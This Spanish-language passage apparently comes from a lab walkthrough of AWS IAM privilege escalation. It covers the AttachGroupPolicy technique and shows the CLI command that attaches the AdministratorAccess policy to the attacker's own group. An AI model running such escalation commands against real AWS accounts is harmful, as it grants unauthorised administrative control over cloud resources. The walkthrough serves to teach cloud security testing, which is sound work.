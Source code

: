 <figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

En este caso el nombre del grupo se sacó por medio web, se puede realiza el comando `aws iam list-groups-for-user --user-name <User>` pero requiere permisos de IAM de list.

Finalmente se agrega la política con permisos avanzados al grupo seleccionado

{% code overflow="wrap" %}
```
aws iam attach-group-policy --group-name privesc8-AttachGroupPolicy-group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc8
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>



## IAM:AttachRolePolicy
